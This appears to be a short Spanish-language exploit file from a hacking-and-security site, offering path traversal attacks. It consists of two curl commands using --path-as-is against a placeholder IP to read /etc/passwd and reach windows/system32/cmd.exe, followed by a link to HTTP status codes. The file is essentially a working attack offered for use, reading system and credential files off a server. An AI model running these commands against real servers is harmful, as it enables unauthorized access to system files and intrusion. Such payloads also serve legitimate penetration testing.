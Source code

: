# directoriotrasversal
#
# Exploits para explotar la vulnerabilidade de directorio trasversal o path traversal.
#

curl --path-as-is -k -v http://ip:80/../../../../../etc/passwd

curl --path-as-is -k -v http://ip:80/../../../../../../windows/system32/cmd.exe

www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html
